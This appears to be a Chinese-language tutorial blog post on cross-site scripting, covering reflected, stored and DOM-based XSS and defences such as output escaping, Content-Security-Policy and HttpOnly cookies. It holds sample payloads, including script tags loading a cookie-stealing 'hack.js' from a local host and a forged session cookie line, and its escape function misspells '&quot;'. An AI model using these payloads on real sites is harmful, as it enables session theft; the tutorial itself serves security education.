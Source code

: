 ```yaml
---
title: XSS攻击
sidebar: 'auto'
date: 2021-11-06
categories:
- 前端安全
isShowComments: true
---
```







# 什么是XSS攻击

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行，从而获取用户的敏感信息如 Cookie、SessionID 等

# XSS攻击分类

## 反射型

### 攻击

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060819994.png)

### 实例

```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

### 防范

#### 转义字符

##### 1. 转义用户输入的内容(replace)

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

##### 2. 利用浏览器特性：自动处理特殊字符(innerHTML)

```js
function filterStr(str) {
    const div = document.createElement('div')
    div.textContent = str
    return div.innerHTML
}
filterStr('<div></div>') // &lt;div&gt;&lt;/div&gt;
```

#### CSP

CSP: 本质上就是建立白名单，明确告诉浏览器哪些外部资源可以加载和执行。

使用方式：

1.   设置HTTP Header的Content-Security-Policy

![img](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060858557.jpeg)

```js
Content-Security-Policy: script-src 'self'; object-src 'none';
style-src cdn.example.org third-party.org; child-src https:
```

2.   meta标签

```js
<meta 
http-equiv="Content-Security-Policy" content="script-src 'self'; 
object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

上面代码中，CSP做了如下 配置：

-   脚本：只信任当前域名
-   `<object>`标签：不信任任何URL，即不加载任何资源
-   样式表：只信任`cdn.example.org`和`third-party.org`
-   框架（frame）：必须使用HTTPS协议加载
-   其他资源：没有限制

#### 防止脚本读取Cookie

1.   Cookie添加HttpOnly属性，防止脚本读取网站的cookie
2.   Cookie添加Secure属性，只能https协议才能传输cookie, 防止中间人截取传输的cookie

## 存储型

### 攻击步骤

1.   黑客通过论坛发帖、商品评论等途径，将脚本提交到目标网站的数据库中
2.   用户打开网站时，网站服务器将脚本从数据库中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户数据发送给黑客网站

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060906009.png)

### 攻击实例

```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```

## DOM型

### 攻击步骤

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

### 与其他XSS区别

DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

### 实例

例如，黑客构造带有恶意代码的 URL 诱导用户打开 http://www.xxx.com/index.html/?content=，浏览器收到请求后解析之行，如果使用 document.write() 、document.outerHTML 、 .innerHTML未经转义输出，就可能遭到攻击。

![2图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060916056.png)



# 参考

1.   [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367#heading-6)
2.   [浏览器专题系列 - Web安全](https://juejin.cn/post/6926726800793927693)
3.   [Web 安全 - 跨站脚本攻击 XSS 三种类型及防御措施](https://mp.weixin.qq.com/s/7ruF1I94p4Ve3tVDb6096A)
4.   [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)





